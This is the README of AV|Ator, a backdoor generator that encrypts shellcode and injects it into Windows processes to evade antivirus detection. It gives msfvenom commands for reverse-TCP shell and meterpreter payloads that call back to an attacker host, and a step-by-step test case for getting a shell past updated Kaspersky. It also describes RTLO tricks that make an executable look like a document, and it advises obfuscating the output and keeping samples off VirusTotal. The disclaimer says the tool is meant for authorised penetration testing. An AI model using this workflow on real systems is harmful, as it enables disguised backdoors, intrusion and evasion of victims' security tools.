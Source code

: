 
### Update 09/12/2021
AV/Ator is discontinued and currently maintained for the sake posterity and research. 

### Update 17/10/2019
It has been reported that the produced backdoor is no more undetectable from the majority of the AV solutions, which is indeed true and which is something I expected by the time that the software is getting more and more 'popular'. As a temporary solution I advise you to use a C# obfuscator on the produced executable. In my case, I used babel for net (http://www.babelfor.net/) with a great success for the majority of AV’s (including Kaspersky, Avast etc.). 


### DO NOT UPLOAD ANY SAMPLES TO VIRUS TOTAL ...as I did it one time for you

# AV|Ator 

**About**://name

***AV**: AntiVirus*

***Ator**: Is a swordsman, alchemist, scientist, magician, scholar, and engineer, with the ability to sometimes produce objects out of thin air* (https://en.wikipedia.org/wiki/Ator)

#

**About**://purpose

**AV|Ator** is a backdoor generator utility, which uses cryptographic and injection techniques in order to bypass AV detection. More specifically:
- It uses AES encryption in order to encrypt a given shellcode 
- Generates an executable file which contains the encrypted payload
- The shellcode is decrypted and injected to the target system using various injection techniques 

[https://attack.mitre.org/techniques/T1055/]:

1. Portable executable injection which involves writing malicious code directly into the process (without a file on disk) then invoking execution with either additional code or by creating a remote thread. The displacement of the injected code introduces the additional requirement for functionality to remap memory references. Variations of this method such as reflective DLL injection (writing a self-mapping DLL into a process) and memory module (map DLL when writing into process) overcome the address relocation issue. 

2. Thread execution hijacking which involves injecting malicious code or the path to a DLL into a thread of a process. Similar to Process Hollowing, the thread must first be suspended.

### Usage

The application has a form which consists of three main inputs (See screenshot bellow):

![Screenshot 2019-04-29 at 11 41 21](https://user-images.githubusercontent.com/4659186/56884876-bca19480-6a73-11e9-8bbf-d249c4813e4e.png)


1.	A text containing the encryption key used to encrypt the shellcode 
2.	A text containing the IV used for AES encryption 
3.	A text containing the shellcode 

Important note: The shellcode should be provided as a C# byte array. 

The default values contain shellcode that executes notepad.exe (32bit). This demo is provided as an indication of how the code should be formed (using msfvenom, this can be easily done with the -f csharp switch, e.g. msfvenom -p windows/meterpreter/reverse_tcp LHOST=X.X.X.X  LPORT=XXXX -f csharp). 

After filling the provided inputs and selecting the output path an executable is generated according to the chosen options. 

### RTLO option

In simple words, spoof an executable file to look like having an "innocent" extention like 'pdf', 'txt' etc. 
E.g. the file "testcod.exe" will be interpreted as "tesexe.doc" 

Beware of the fact that some AVs alert the spoof by its own as a malware. 

### Set custom icon

I guess you all know what it is :)

### Bypassing Kaspersky AV on a Win 10 x64 host (TEST CASE) 

Getting a shell in a windows 10 machine running fully updated kaspersky AV 

#### Target Machine: Windows 10 x64 

1. Create the payload using msfvenom 

   ```msfvenom -p windows/x64/shell/reverse_tcp_rc4 LHOST=10.0.2.15 LPORT=443 EXITFUNC=thread RC4PASSWORD=S3cr3TP4ssw0rd -f csharp```

2. Use AVIator with the following settings

    Target OS architecture: x64

    Injection Technique: Thread Hijacking (Shellcode Arch: x64, OS arch: x64) 

    Target procedure: explorer (leave the default)

3. Set the listener on the attacker machine

4. Run the generated exe on the victim machine



### Installation

**Windows:**

Either compile the project or download the allready compiled executable from the following folder:

https://github.com/Ch0pin/AVIator/tree/master/Compiled%20Binaries

**Linux:**

Install Mono according to your linux distribution, download and run the binaries

e.g. in kali:

```
   root@kali# apt install mono-devel 
   
   root@kali# mono aviator.exe
```

### Credits
To Damon Mohammadbagher for the encryption procedure

### Disclaimer 

I developed this app in order to overcome the demanding challenges of the pentest procedure and this is the only way that the app should be used. Make sure that you have the required permission to use it against a system and never use it for illegal purposes. 
I would suggest to avoid testing the executables on solutions like virus total e.t.c. If you want to use the application for pentesting purposes I am sure you have already identified the AV used by your target, so go download a demo and make your testing offline. 


